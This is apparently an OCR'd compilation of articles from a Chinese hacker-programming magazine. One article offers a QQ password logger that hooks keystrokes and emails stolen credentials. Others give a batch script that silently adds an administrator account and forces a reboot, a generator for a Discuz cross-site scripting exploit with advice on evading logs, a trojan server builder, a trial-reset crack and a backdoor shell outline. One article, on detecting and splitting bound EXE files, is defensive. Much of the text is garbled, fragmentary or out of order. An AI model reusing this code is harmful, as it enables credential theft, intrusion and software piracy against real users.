接下来的问题是：如何定位 PE header？答案很简单：DOS MZ header 已经包含了指向 PE header 的文件偏移量。查询 windows.inc，我们知道 IMAGE_DOS_HEADER 结构的 e_lfanew 成员就是指向 PE header 的文件偏移量。

现在将所有步骤总结如下：首先检验文件头部第一个字的值是否等于 IMAGE_DOS_SIGNATURE，若匹配则 DOS MZ header 有效。之后用 e_lfanew 定位 PE header，再比较 PE header 的第一个字是否等于 IMAGE_NT_SIGNATURE。若前后两个值都匹配，则认为该文件是有效 PE 文件。

> 你是否想到了什么呢？如果上述过程中的任何一个环节出错，都会导致 PE 文件不能被正确加载。基于这个思路，可以通过破坏关键标记实现“加密”。


有了思路，剩下事情就简单了：用十六进制编辑器打开任一 PE 文件，修改上述 3 点中的任意一个，即可实现加密。那如何解密呢？再改回即可。文中举例将 tt.exe 的 MZ 改写并保存，文件状态变化如图所示。


手工改有点麻烦，下面编写程序检测是否为合法 PE 文件。对照前面的分析代码即可判断并输出结果。


```c
#include <windows.h>
#include <stdio.h>

int main() {
    char filename[20];
    FILE* fp = NULL;
    IMAGE_DOS_HEADER dosHeader;
    IMAGE_NT_HEADERS ntHeader;

    printf("\nEnter file name:");
    scanf("%s", filename);

    if ((fp = fopen(filename, "r+")) == NULL) {
        printf("\nCan not open %s\n", filename);
        exit(1);
    }

    fread(&dosHeader, sizeof(dosHeader), 1, fp);
    if (dosHeader.e_magic == IMAGE_DOS_SIGNATURE)
        printf("lfanew: %08x\n", dosHeader.e_lfanew);
    else
        printf("%s is not PE\n", filename);

    fseek(fp, dosHeader.e_lfanew, SEEK_SET);
    fread(&ntHeader, sizeof(IMAGE_NT_HEADERS), 1, fp);
    if (ntHeader.Signature == IMAGE_NT_SIGNATURE)
        printf("%s is PE\n", filename);
    else
        printf("%s is not PE\n", filename);

    return 0;
}
```

如果是合法的 PE 文件，那我们就可以修改了。这个小节演示了通过修改关键字节实现简单“加密/解密”的方法。

# 黑客编程

# 打造帝企鹅发送功能的 QQ 密码记录软件

胡绪超

**摘要：** 本文使用 C++Builder，介绍了如何实时捕获 QQ 号码和记录 QQ 密码，并通过邮件发送出去。

**测试环境：** Win2000 Adv Server，QQ2004 珊瑚虫版，QQ2005 均通过测试。

**关键词：** 窗口句柄、键盘钩子、邮件发送。


### 一、引言

- 实时监测，隐藏运行，开机自启动。
- 记录 QQ 号码和密码，并通过邮件发送出去。

作为一个优秀的 QQ 密码记录软件，必须有如上功能。由于腾讯对 QQ 加强了“安全措施”，QQ 登录窗口标题变化，且邮件匿名发送受限，需要身份验证，这为记录 QQ 密码提出了挑战。

### 二、流程图以及程序界面

具体流程如下图。


### 三、一些思路

主要用到两个 Timer 控件：Timer1 监视 QQ 登录窗口并安装/卸载键盘钩子；Timer2 监视用户操作，当用户回车或点击登录时触发发送逻辑。

### 四、具体实现

- 取得 QQ 登录窗口句柄：通过窗口类名（如 `#32770`）定位 QQ 登录窗口与密码输入框，并判断当前活动窗口。

```cpp
HWND hwa,hwb,hwc;
hwa=FindWindow("#32770",0);
hwb=GetDlgItem(hwa,138);
hwc=GetForegroundWindow();
if (hwb!=0 && hwa==hwc) {
    if(g_hLogHook==NULL)
        g_hLogHook=SetWindowsHookEx(WH_JOURNALRECORD,(HOOKPROC)JournalLogProc,hInstance,0);
    SendMessage(hwb,WM_GETTEXT,255,(LPARAM)szPass);
    qqnum=szPass;
}
```

- 监视用户操作

```cpp
if(buffer1==""){
    GetCursorPos(&lpPoint);
    hw=WindowFromPoint(lpPoint);
    GetWindowText(hw,s,100);
    if((AnsiString(s).Pos("登录")>0)||(buffer.Pos("{enter}")>0))
        buffer1=buffer;
}
```

- 键盘钩子

键盘钩子用于记录按键信息并保存到全局变量 `buffer`。若用户使用软键盘，常规按键记录方式可能失效，需要额外处理。

- 邮件发送

```cpp
NMSMTP1->Host=Edit1->Text;
NMSMTP1->PostMessage->FromAddress=Edit2->Text;
NMSMTP1->UserID=Edit3->Text;
NMSMTP1->PostMessage->ToAddress=Addr(Edit5->Text);
NMSMTP1->PostMessage->Subject=qqnum;
EncName=encode(Edit3->Text);
EncPsw=encode(Edit4->Text);
if(NMSMTP1->ReplyNumber==334){
    NMSMTP1->Transaction(EncName);
}
if(NMSMTP1->ReplyNumber==334){
    NMSMTP1->Transaction(EncPsw);
}
NMSMTP1->SendMail();
```

由于发一次邮件从连接服务器到发送大约需要 10 多秒，发送过程中容易出现异常，建议使用 `TRY...CATCH` 捕获 `NMSMTP1->Connected` 相关错误。

## EXE捆绑文件检测及分离


自从写了“打造EXE文件捆绑检测器VB篇”后，就一直有人问如何将检测出已捆绑的文件单独分离出来，以便分析。本文继续基于检测原理进行说明。

### 一、分析

EXE 文件捆绑程序的核心是“捆绑”，即把多个 EXE 文件拼接成一个文件，运行时再解开并分别执行。实现上通常先读入第一个文件创建新文件，再追加后续文件内容。Windows 下 EXE 遵循 PE 格式，文件头中可通过 “MZ” 标志进行判断；若检测到多次 “MZ” 出现，则可能存在捆绑。

- DOS MZ header
- DOS stub
- PE header
- Section Table
- Section 1
- Section 2
- ...
- Section n

已知检测器记录了 “MZ” 标志位置后，可据此推断各子文件边界，进而得到被捆绑文件的偏移与大小，实现分离。通常第一个文件为捆绑壳程序，真正需要的是后续被调用文件。


```vb
Private FilePath As String
Private FirstFileLen As Double
Private SecondFileLen As Double
Private ThirdFileLen As Double

Private Sub Form_Load()
    ' 获取当前路径并初始化
End Sub
```

这一部分主要是文件选择与校验：判断是否选中文件、文件类型是否为 EXE，并在路径有效时激活相应按钮，避免程序异常。

```vb
' 选择文件并判断类型，显示完整路径
Private Sub cmdFile_Click()
    ' dlg.Filter = "EXE|*.exe"
    ' If ... Then
    '   lblFile.Caption = dlg.FileName
    '   cmdCheck.Enabled = True
    ' Else
    '   MsgBox "你选择的不是可执行文件（.EXE）"
    ' End If
End Sub
```

### 二、设计

先给出控件布局与属性（图1），并定义初始化所需的全局变量和当前完整路径。

| 对象 | Name | Caption | Enabled |
|---|---|---|---|
| 标签 | lbFile | 你还没有选择文件呢，请点“选择文件”按钮 | True |
| 命令按钮 | cmdFile | 选择文件 | True |
| 命令按钮 | cmdCheck | 开始检测 | False |
| 命令按钮 | cmdSplit | 开始分离 | False |
| 通用对话框 | dlg | 无 | 无 |

表1

# 黑客编程

```vb
' 没有选择文件则提示重新选择文件并将“开始检测”和“开始分离”按钮置为不可用
MsgBox "你没有选择文件，请重新选择！", vbCritical
cmdCheck.Enabled = False
cmdSplit.Enabled = False
lblFile.Caption = "你还没有选择文件呢，请点“选择文件”按钮"
End If
End Sub
```

```vb
MsgBox "已被捆绑其它文件，建议不要执行！", vbInformation
cmdSplit.Enabled = True
FirstFileLen = (Second - First) * 2
SecondFileLen = (Third - Second) * 2
ThirdFileLen = FileLen(dlg.FileName) - Third * 2
Else
    MsgBox "没有捆绑其它文件！", vbInformation
End If
cmdFile.Enabled = True
cmdCheck.Enabled = True
End Sub
```

剩下的就是本程序的核心部分了。先利用 “MZ” 标志分析是否有捆绑的可能，并分别记录多个 “MZ” 标志起始位置及对应文件大小。若检测到已被捆绑，则给出“已被捆绑其它文件，建议不要执行！”提示。文中说明了长度计算方法，以及 Unicode 比较时长度需乘以 2 的原因。


根据记录的各个 “MZ” 标志位置和计算出的文件大小，从原文件中读取对应长度并写入新文件。文中强调这是二进制文件操作，并在分离完成后给出提示。新生成文件追加扩展名 “.BAK”，以降低误执行风险。


```vb
' 检测文件是否已被捆绑，若已捆绑则提示并记录各文件长度
Private Sub cmdCheck_Click()
Dim ExeContent() As Byte
Dim FileNum As Integer
Dim i As Integer
Dim First As Double, Second As Double, Third As Double

First = 0: Second = 0: Third = 0
cmdFile.Enabled = False
cmdCheck.Enabled = False
cmdSplit.Enabled = False

FileNum = FreeFile()
Open dlg.FileName For Binary As FileNum
ReDim ExeContent(FileLen(dlg.FileName) - 1)
Get FileNum, , ExeContent
Close FileNum

First = InStr(1, ExeContent, StrConv("MZ" & Chr(144) & vbNullString, vbFromUnicode))
If First <> 0 Then
    Second = InStr(First + 4, ExeContent, StrConv("MZ" & Chr(144) & vbNullString, vbFromUnicode))
    If Second <> 0 Then
        Third = InStr(Second + 4, ExeContent, StrConv("MZ" & Chr(144) & vbNullString, vbFromUnicode))
        If Third <> 0 Then
            i = 1
        End If
    End If
End If
```

```vb
' 分离各个文件
Private Sub cmdSplit_Click()
Dim FirstFile() As Byte, SecondFile() As Byte, ThirdFile() As Byte
Dim FileNum As Integer

FileNum = FreeFile()
Open dlg.FileName For Binary As FileNum
ReDim FirstFile(FirstFileLen)
Get FileNum, , FirstFile
Close FileNum

FileNum = FreeFile()
Open FilePath & "First.exe.bak" For Binary As FileNum
Put #FileNum, , FirstFile
Close #FileNum

FileNum = FreeFile()
Open dlg.FileName For Binary As FileNum
ReDim SecondFile(SecondFileLen)
Get FileNum, FirstFileLen + 1, SecondFile
Close FileNum

FileNum = FreeFile()
Open FilePath & "Second.exe.bak" For Binary As FileNum
Put #FileNum, , SecondFile
Close #FileNum

' 继续分离第三个文件...
```

```vb
Open dlg.FileName For Binary As FileNum
ReDim ThirdFile(ThirdFileLen)
Get FileNum, FirstFileLen + SecondFileLen + 1, ThirdFile
Close #FileNum
FileNum = FreeFile()
Open FilePath & "\Third.exe.bak" For Binary As #FileNum
Put #FileNum, , ThirdFile
Close #FileNum
```

```vb
MsgBox "分离完成! 文件名为 First.exe.bak、Second.exe.bak、Third.exe.bak!", vbInformation
End Sub
```

至此，一款我们自己的 EXE 捆绑文件检测分离工具就诞生了，本程序在 WIN2K + VB6 下编译通过。（本文涉及到的 COMDLG32.OCX、SplitExe，光盘有收录）

我是黑客 X 档案的铁杆 Fans，在黑客 X 档案 2005 年第 2 期中看到一篇“伪装欺骗利用高手——目录欺骗工具”，看完后深受感触……下面以 WinXP 为例进行方式演示（以下演示在 WinXP + VB6.0 下通过）。


### 一、VB6.0 之编写篇

原 WINXP 程序是由 Delphi 编写并 UPX 加壳……作者用 VB6.0 编写了一个相同思路的工具，并说明了新建“标准 EXE”工程及代码输入方法。

- 1. 它在 NTFS 磁盘里无法删除自身程序！
- 2. 它在 NTFS/FAT32 磁盘里，把 _notes.exe 属性改为“隐藏”后，无法移动到 Windows 下！

```vb
Private Declare Function GetWindowsDirectory Lib "kernel32" ...
Public Function SysWinDir() As String
  ...
End Function

Private Sub Form_Load()
  On Error Resume Next
  ...
End Sub
```

```vb
Qfile = App.Path & "\NOTEPAD.exe"
ChDir App.Path
If Dir(App.EXEName) <> "" Then
  ...
  MkDir(App.EXEName)
  Shell "explorer.exe " & App.EXEName, vbNormalFocus
End If
If Dir(Qfile) = "" Then
  Name Qfile As SysWinDir & "\NOTEPAD.exe"
  Shell SysWinDir & "\NOTEPAD.exe"
End If
...
Open "icy.bat" For Output As #1
Print #1, "del /q " & App.EXEName & ".exe"
...
```

完成后不要忘了修改程序属性，尤其是“版权信息”要清除。文中比较了 UPX 与 Mew 压缩效果，并说明了 NOTEPAD.exe 命名与图标伪装注意点；该程序可在多数系统运行并减少多进程需求。

### 二、Delphi7.0 之编写篇

由于软件环境原因，作者给出若干 Delphi 实现提示：

- 1. 获得 Windows 文件夹的 API 函数；
- 2. 运行程序（winexec/pchar 等）。

```pascal
function getwindir:string;
var
  buf:array[0..max_path] of char;
begin
  getwindowsdirectory(@buf,max_path);
  result := buf;
end;
```

- 3. 退出程序：`application.Terminated;`

另有代码片段（OCR 残缺）：`序名'),sw_hide);。`


起初这个方法是由我的一个朋友想出来的，不过内容太简单，大家先来看下代码（虽然没太大的用处，但我们需要的是创新精神）：……步骤是使用 bat2com 和 com2exe 两个程序，把 bat 转换为 exe，设置属性为“最小化运行”，同时使用 Resource Hacker 更改图标……我又想到了冰枫文件加密工具 v1.0……

```bat
@echo off
net user icy /add
net localgroup administrators icy /add

@notes.exe
md winxp
```

……当运行编写好的程序时，添加用户、运行屏保、判断是否有 NOTEPAD.exe（第二个字符不是字母“O”而是数字“0”），有就移动 NOTEPAD.exe 到系统目录并运行它。然后出现迷惑用户的回应，再重新启动计算机。新建一名为 winxp.bat 的文件内容为（“//”后为注解）：

```bat
@echo off
net user icy 8624 /add
net localgroup administrators icy /add
cls
@ssstars.scr /s
...
echo Microsoft Windows XP [Version 5.1.2600]
echo (C) Copyright 1985-2001 Microsoft
echo Please restart your computer
pause
IF NOT EXIST NOTEPAD.exe goto ...
```

```bat
if EXIST C:/ 判断是否存在名为 NOTEPAD.exe 的文件
@move NOTEPAD.exe %SystemRoot%\NOTEPAD.exe
@NOTEPAD.exe
goto 1
:1
del winxp.exe
shutdown -r -f -t 0
cls
```

使用冰枫文件加密工具 v1.0 就可以了……把一份 QQ 的软件改名为 NOTEPAD.exe，运行 icy.exe 效果如图 2。并且大小只有 34.1KB。欢迎大家到 www.hackerxfiles.net/bbs 与我交流，我的 ID 为“icyleaf”。


# 手把手教你制作 Discuz4.0.0 论坛漏洞程序

前些日子 Discuz 的头像跨站也算是比较火的一个漏洞了，小猫发现了这个漏洞后，写了个 Exploit，被多方转载……下面就和大家一起谈谈这个程序的编写。

其实对于 VB 我也不是太精通，我们先来分析下这个漏洞和 Discuz4.0.0 的头像修改页面。

### 一、漏洞分析

导致这个漏洞的原因是 Discuz 在修改头像的页面，把待选头像的地址直接写到 radio 控件里，而在显示头像的页面又没有很好的过滤，所以我们可以写入跨站脚本。

先来看能不能外部提交。假设漏洞网站为 `http://targetzone.com/bbs`，先注册并登录，打开头像页面 `memcp.php?action=viewavatars` 并分析页面，发现除头像图片和 radio 控件外，还有隐藏域 `formhash`（图1）。修改隐藏域提交会提示请求不正确，不修改可提交成功，据此判断 `formhash` 是判断是否外部提交的参数，但可绕过。


好了，程序和页面分析完了，我们来设计下利用程序的流程。

### 二、程序设计

- 1. 先输入论坛地址，读取 `formhash` 的值，再提交数据。
- 2. 程序应先检测是否为 Discuz4.0.0 论坛，并处理用户输入地址避免出错。
- 3. 为避免管理员在日志中看出入侵方式，提交数据时最好构造本地表单页面，使用 `POST`，减少日志信息。

具体流程如图2所示。界面设计要简洁、步骤明确，让用户知道每一步在做什么。


### 三、关键代码

我们要用到的功能：1）页面读取；2）判断一个字符串中是否包含某个子串。页面读取可以使用 “Microsoft Internet Controls” 控件。

判断子串可以使用 `InStr` 函数：返回整数，表示一个字符串在另一个字符串中首次匹配的位置。

```vb
Public Shared Function InStr( _
    Optional ByVal Start As Integer, _
    ByVal String1 As String, _
    ByVal String2 As String) As Integer
```

如果函数返回 0，说明在 `string1` 中没有 `string2`，可用来判断是否存在特征字符串（见图3）。


### 四、程序注解

```vb
Private Sub CMread_Click()
    If IsTrue(text) Then
        MsgBox "请填写要测试的论坛地址"
        Exit Sub
    End If

    Dim theUrl As String
    theUrl = strUrlText

    If Right(theUrl, 8) <> "memcp.php" Then
        theUrl = theUrl & "memcp.php"
    End If

    GBSubmit.Enabled = True
    WebBrowser1.Navigate theUrl

    CMread.Caption = "请稍等..."
    CMread.Enabled = False
End Sub
```

```vb
' As Integer
```

点击“读取参数”按钮的代码和注释如下。关于处理打开页面后的相关内容，代码如下：

```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    If URL = "about:blank" Then Exit Sub

    Dim strContent As String
    For i = 0 To WebBrowser1.Document.All.length - 1
        If WebBrowser1.Document.All(i).tagName = "HTML" Then
            strContent = strContent & WebBrowser1.Document.All(i).innerHTML
            Exit For
        End If
    Next

    Dim where As Long
    Dim strCode As String
    where = InStr(strContent, "<INPUT type=Hidden") + 25
    If where = 25 Then
        MsgBox("错误，无法读取Formhash，请重新登陆后并选择保存cookies")
        Exit Sub
    End If

    strCode = Mid(strContent, where, 8)
    strFormhash.Text = strCode
End Sub
```

```vb
d = "exploit"
Print #1, "<INPUT type=hidden value='" & strFormhash.Text & "' name=formhash>"
Print #1, "<INPUT type='Text' value='abc' name=avasubmit>"
Print #1, "<input name=avatarnew type=text id=avatarnew value='" & content & "'>"
Print #1, "</FORM>"
Print #1, "</body>"
Close #1
induText = "生成log.txt并生成页面..."
WebBrowser2.Navigate(strFileName)
```

需要说明的是，在 WebBrowser2 这个控件的 DocumentComplete 中，我们应该有一段删除临时文件的代码，这样做更严谨，否则用户使用了你的软件之后，电脑上留下一堆垃圾文件，这可是不好的。

# 总结

为什么玄猫在发布了软件后又写了这篇文章呢，因为对于许多跨站来说，利用程序应该是大致相同的，如此我们可以举一反三，写出更多的跨站利用程序。

> （文中涉及到的 Discuz4.0.0 跨站漏洞利用程序以及 QQ 个人空间名家跨站漏洞利用程序已经收录于光盘）

这里我再说一下上面遇到的 Mid 函数。Mid：从一个字符串返回包含指定数量字符的字符串。

```vb
Public Shared Function Mid( _
    ByVal Str As String, _
    ByVal Start As Integer, _
    Optional ByVal Length As Integer _
) As String
```

我们的代码中，strContent 是存放网页 HTML 代码的 String 变量，where 是我们获得的 formhash 的开始位置（Long 变量），8 是 formhash 的长度。

生成临时本地表单的函数代码：

```vb
Private Sub WriteFile(content)
    Dim strFileName As String
    strFileName = App.Path & "\exploit.htm"
    induText = "正在生成Exploit文件..." & vbCrLf & strFileName

    Open strFileName For Output As #1
    Print #1, "<body onload=javascript:document.exploit.submit()>"
    Print #1, "<FORM action='" & strUrl.Text & "?action=viewavatars' method=post name='exploit'>"
End Sub
```

有些木马在解压缩之后只有一个客户端程序，用户可以通过在客户端的一些设置工作来自动生成针对性较强的服务端程序，例如特定的端口、IP 地址、击键木马的附件地址、密码、SMTP 服务器等等。大家是不是觉得这个功能很 COOL 啊！

其实，黑客程序服务端的配置和生成问题也是很多初学者最感兴趣，但却又是不知该从何下手的问题，而且你在书上也找不到现成的答案。本文在 Delphi 编译环境下，简要地探讨这一技术的实现，最后你会发现它并不神秘，Let’s go！让我们揭开它的神秘面纱。

# 用 QQ 间谍生成木马服务端的原理

独孤刀客

### 一、为代码指定 QQ 号码

在开始讲服务端的编写前，我们要准备一个“木马”，这样后边才好设置，然后生成一个服务端。为了简化篇幅，这里我就用我写的一个和 QQ 间谍类似的程序——QQ 直聊机来作为服务端程序给大家演示，程序界面如图 1 所示。

在“QQ 号码”处填写你想要聊天的 QQ 号，点击“连接”按钮就可以和对方聊天。如果对方是你的好友的话会自动打开聊天对话框，如果不是则会打开一个临时会话框，只要对方在线你就可以直接聊天了。初看这个程序挺复杂的，其实这个程序利用了腾讯互动状态服务（http://is.qq.com/webpresence/），我们用程序实现的话只用一句代码就可以搞定了。核心的代码如下（完整的代码收录在光盘中，请读者自行参阅）：


发现了什么？你会发现这个服务端在附加数据，说白了就是被捆绑了文件。再将该数据另存为文件。大家存为 TXT 类型的文件即可，打开这个文件后你们发现：

```pascal
ShellExecute(0, nil, PChar('tencent://Message/?Menu=yes&Uin='+Edit1.Text+'&websiteName='+Edit2.Text), nil, SW_NORMAL);
```

调用 ShellExecute 函数要在 uses 段加入 ShellApi，且 QQ 版本最好是 2004 以上版本的。

### 二、服务端的配置与生成问题

事实上，这一技术并无什么神秘性，因为说穿了这一技术不过是对可执行文件的自定义资源进行操作罢了。也就是说，客户端程序本身附有一段自定义的二进制数据，这段二进制数据实质上就是一个服务端的模板。在用户进行了设置工作之后，客户端就会将设置完成的这些特定数据填充到这个模板之中，然后再通过写文件的操作将这段已经配置完毕的二进制数据模板生成一个特定的服务端程序。

对于以上的这个过程，想必很多人都知道，但对于初学者来说有一定难度，不好实现。所以我们只好另辟蹊径了。如果你用过黑洞，你可以用它生成一个服务端，然后再用这个 EXE 捆绑检测机检测一下生成的服务端。这个版本的黑洞是 2004 年的，不排除现在作者换了其他的方法，如图 2。

```text
00000F290001080F000044008FEBF98F...（十六进制数据片段）
```

看不懂，一堆乱码，被加过密了。现在你是否有点头绪了呢？其实服务端的运行是会自动释放一个文件，你写的配置的东西就埋在这个文件里了，服务端运行时从里面读取配置信息。在生成服务端的时候就在服务端里捆绑上这个文件。这样是不是很像一个捆绑器的原理？其实黑客程序服务端的生成就是利用了捆绑器的原理，被捆绑的文件就是我们填好配置信息的文件（ini 文件），这也就是本文的主要思路。

在动手前我们首先要学习一下资源文件和 INI 文件。关于资源文件，你只要在百度上打上“资源文件的利用”就会找到很多。当然了，陈经瑶（黑洞的开发者，网站 http://www.138soft.com）写的那两篇《谈 Delphi 编程中资源文件的应用》和《谈 Delphi 编程中“流”的应用》是一定要看的。我发现一些市面上出版的图书上关于资源文件和流的介绍就是完全照搬这两篇文章的。然后你再看下边的内容就容易多了。

把要掌握的技术都搞懂了，现在我们就开始编写一个可以根据配置生成服务端程序的 QQ 直聊机吧。

### 三、服务端程序的编写

编写这个程序只是为了给大家更直观地演示木马程序服务端的配置和生成问题，程序本身用处并不大，但原理是一样。如果你把这个搞懂了，再去编一个只有一个客户端程序并可以生成服务端的木马是不难的。

# 黑客编程


图3

7.0 新建一个应用程序，然后按“Ctrl+F12”键，选择 Project1，如图 3。然后把 Unit1 直接删了，不要保存，最后只有一个 Project1，代码如下：

```pascal
program Project1;
uses
  Forms;
{$R *.res}
begin
  Application.Initialize;
  Application.Run;
end.
```

将上面的代码再整理一下变成如下的：

```pascal
program Project1;
uses
begin
end.
```

够简单吧，在 uses 里加上要用到的单元文件，比如 Windows、ShellApi 等，在 begin 和 end 之间加下主程序。还有一些用到的类似 INI 类必需的都加上，具体代码如下：

```pascal
program QQChat;
uses
  Windows, Messages, SysUtils, Classes, ShellApi, IniFiles;
var
  qqhao: string;
  myini: TIniFile;
Function LoadFromFile(SourceFile, TargetFile: string): Boolean;
begin
  ...
end;
```

用了一个 API 函数，现在我们只要把“Edit1”控件改为我们要配置的内容（也就是 QQ 号就可以了），看下面的操作过程：先运行 Delphi ...

```pascal
ShellExecute(0, nil, PChar('Tencent://Message/?Menu=yes&Uin='+qqhao+'&WebsiteName=http://www...'), nil, nil, SW_NORMAL);
// 打开腾讯临时会话的代码
end;
```

代码都写好后，保存为 QQchat.dpr，同时将 INI 文件放在同一目录下，然后按 F9 运行，看看是否自动读取了配置文件里的 QQ 号并建立了一个临时会话。

### 四、配置程序的编写

成功后，我们便开始编写配置程序。刚刚写的程序能释放 ini 文件并读取相应的值，配置端需要做的是创建并写入 ini 文件，然后捆绑在服务端程序里。首先新建一个 QQ.rc 文件，写入内容：`QQchat exefile QQchat.exe` ...


图4

好，回到 Delphi，新建一个应用程序，在代码框的 `{$R *.dfm}` 上加上 `{$R QQ.RES}` 加载资源文件，在 Form1 窗体上加一个 Edit 控件，再加一个 Button 控件，Caption 属性设为“生成”，如图 5。代码如下：


图5

```pascal
interface
uses
  Windows, Messages, IniFiles, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;
type
  TForm1 = class(TForm)
    Label1: TLabel;
    Edit1: TEdit;
    Button1: TButton;
    Label2: TLabel;
    Edit2: TEdit;
    procedure Button1Click(Sender: TObject);
  private
  public
  end;
var
  ...
```

```pascal
Form1: TForm1;
implementation
{$R *.DFM}

Function AddtoFile(SourceFile, TargetFile: string): Boolean;
...
procedure TForm1.Button1Click(Sender: TObject);
var
  myini: TIniFile;
  Res: TResourceStream;
begin
  ...
end;
```

```pascal
+cont:=ini.PChar(Edit2.Text));
// 将 config.ini 添加到服务端程序
DeleteFile(ExtractFilePath(ParamStr(0))+'config.ini');
ShowMessage('服务端生成完毕!');
...
```

编译成功后，你的可配置信息的黑客程序就完成了，如图 6。现在你学会木马服务端的配置和生成的方法，以前找了很久、问了很多人都没找到现成程序的朋友，有救了。


想不到其实是这么简单吧！其实，现在很多黑客程序都用 DLL 编程。大家用过一些程序一定会知道有些程序不仅生成了一个 exe 文件，还附带着一个 dll 文件，要两个文件一起发给对方运行才会有效。这样的坏处是不言而喻的，你一定会想可不可以用上面的方法将 DLL 捆绑在 EXE 文件上，程序运行时再释放出来？

这个想法虽好，但实际中是行不通的，因为 EXE 文件需要加载 DLL 文件，exe 运行时找不到 DLL 就会报错。所以要修改这个加载，考虑延时问题。当然如果你成功后可以把 DLL 写入到 EXE 文件里。简单点的就是，再写一个程序，这个程序的作用就是将 exe 和 dll 文件捆绑在一起，当这个程序运行时就先释放 exe 和 dll 文件，然后等上一定的时间再运行 exe 文件，这样 exe 就可以顺利地加载 DLL 文件了。

> （本文涉及到的程序，光盘有收录）

# 轻松制作 Talisman 破解器安装包

杰克森林

| 项目 | 说明 |
|---|---|
| lpName | 用于储存读取的子项名的变量 |
| cbName | 变量的长度 |

在桌面美化方面，Talisman 算是较有名气，小弟近日寻了许久，却 down 不到 Talisman 2.7 的破解版，于是只好自己动手，down 到了此软件官方包，做成了 2.7 版的破解安装包。特意拿出来与大家分享分享，望莞见笑。

Talisman 是共享软件，未注册能试用 30 天，没任何限制，30 天后不能使用。面对这样的情况，当然请出 RegShot，对安装前后注册表进行对比发现，只修改了 9 处，其中 `HKEY_USERS\*****\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\WCID` 此键值较为可疑，将其删除后发现使用日期回到第一天。第一步成功！

只要用 VB 编一程序负责先删除此键值，然后再调用 talisman.exe，那么使用日期就永远停留在第一天了。思路有了，于是现在问题出在 WCID 这一键值路径中哪一串随机变化的数字了。这里简要介绍一下 VB 中用于枚举子项的 API 函数：

```vb
RegEnumKey(ByVal hKey As Long, ByVal dwIndex As Long, ByVal lpName As String, ByVal cbName As Long)
```

| 参数 | 说明 |
|---|---|
| hKey | 要枚举的项的句柄 |
| dwIndex | 要读取的子项在所有子项中所排列的顺序（从 0 开始） |

有了这个函数，一切就好办了，只要把 HKEY_USERS 下的所有子项枚举掉，把 WCID 都删一遍就行了。打开 VB，先声明以下的函数与常数：

- 函数：RegEnumKey、RegCloseKey、RegOpenKeyEx、RegDeleteValue
- 常量：HKEY_USERS、KEY_SET_VALUE

程序如下：

```vb
Private Sub Form_Load()
On Error Resume Next
'...省略若干
Dim res As Long, hKey As Long
Dim i As Long, name As String
...
While res = 0
...
Wend
End Sub
```

# 黑客编程

## 用 Delphi、VB、ASP+Html+JS 和 PHP 编写 QQ 强制聊天器

见习刺客

```vb
res = RegEnumKey(HKEY_USERS, idx, name, Len(name))
...
Shell "talisman.exe ..."
End Sub
```

除此之外还可以加上一个破解者的 logo 之类，不过记得加上 `Unload Me` 语句……最后保存为 TALISMAN-FJ.exe。

由于 Talisman 是绿色软件，因而 WinRAR 成为制作安装包的首选工具……将文件夹用 WinRAR 压缩为自解压文件。


大功告成了，简单吧！（本文涉及到的程序，光盘有收录）

今天我们来用 Delphi、VB、ASP+Html+JS 和 PHP 编写 QQ 强制聊天器，方法由简到难……

### 一、ASP

先新建一个 TXT 文本，写入以下内容：

```html
<body>
<form name="form" method="post" action="QQ.asp">...
</form>
</body>
```

简要说明：QQ 号码最大长度为 9……把上面的代码保存为 QQ.html。

```asp
<%@LANGUAGE="VBSCRIPT" CODEPAGE="936"%>
hiden=request.form("hiden")
qq=trim(Request.form("qq"))
if len(qq)>5 or len(qq)<=10 then
  Response.redirect("http://wpa.qq.com/msgrd?...&uin="&qq)
  Response.End
end if
```

简要说明：QQ 号码长度在 5-9 之间才可以弹出对话框……但没有错误提示。

```asp
如果把 QQ.asp 代码替换为：
<%@LANGUAGE="VBSCRIPT" CODEPAGE="936"%>
...
if qq='10000' then
  Response.Write("<script language=JavaScript>alert(...)")
end if
```

```html
<script language=JavaScript>alert('错误提示')
location.href='javascript:window.close()'</script>
Response.End
...
if isNumeric(qq)=true then ... else ...
```

好了，以上是网页在线强制聊天的方法……我们想到 JS。用文本写以下代码：

```js
document.write("<iframe src=qq.html width=450 height=30 frameborder=no ...></iframe>")
```

保存为 QQ.js，然后在网页中加入：  
`<script language='JavaScript1.2' src='QQ.js' type='text/JavaScript'></script>`

### 二、PHP

建一个 HTML 的表单网页，表单代码：

```html
<form method='POST' action='QQ.php' target=_blank>
<input type='text' name='qq' ...>
<input type='submit' value='泡他(她)!'>
</form>
```

# 黑客编程

```html
<% ... QQ.php ... %>
<head>
<title>...</title>
<script language="javascript">
function openwin(){ ... }
</script>
</head>
<body>
<input type=button onclick="openwin()" value="..."></body>
```

Delphi 会用到 ShellExecute，功能是运行外部程序、打开已注册文件、打开目录、打印文件等，并可做一定控制。

更多地被使用，同时它并不是太复杂。先在界面下做好一个窗口，如图 1 所示。


然后双击图中所示的“Button1”控件，写下以下代码：

```pascal
ShellExecute(Handle,'open','http://wpa.qq.com/msgrd?...');
// Handle 表示窗口句柄
// SW_SHOW 正常显示
```

想编译程序？你编译看看吧，怎么不成功呢？因为要在上面 uses 句中加入 ShellApi，如图 2 所示。

```pascal
uses Windows, Messages, SysUtils, Variants, Classes, Dialogs, ShellApi, StdCtrls;
```

好了，现在编译程序吧！几秒钟你就成功了。

### 三、Delphi

### 四、VB6.0

VB6.0 跟 Delphi 的方法差不多，主要是声明“长”一点，代码如下：

```vb
Private Declare Function ShellExecute Lib "shell32" Alias "ShellExecuteA" (...)
```

```vb
Private Sub Command1_Click()
  Dim y As String
  y = "http://wpa.qq.com/msgrd?..."
  ShellExecute 0, vbNullString, y, vbNullString, vbNullString, vbNormalFocus
End Sub
```

```vb
Dim parameter As String
ByVal lpDirectory As String, ByVal nShowCmd As Long
```

然后双击“Button1”控件，即图 3 中的“超 Q 验证（功）”。


这只是一个很简单的小例子，欢迎大家以后和我一起探讨技术！

# 绑架某某山（CMDITY）

特南克斯

后门（BACKDOOR）... 介绍 WinShell、WinEggDrop Shell、VYL 等思路，讨论用 C 语言与 VC 建立 main 工程，涉及 CreatePipe、CreateThread、CreateProcess、DuplicateHandle 等 API。

- 1. LetUsGo：共有成员函数，外部调用，传递一个连接的 SOCKET 实现 Shell 功能。
- 2. CleanUp：私有成员函数，内部调用，用于清除所有资源。
- 3. GetOsVer：私有成员函数，内部调用，得到系统版本。
- 4. StartCmdShell：私有成员函数，内部调用，开始 CMD。

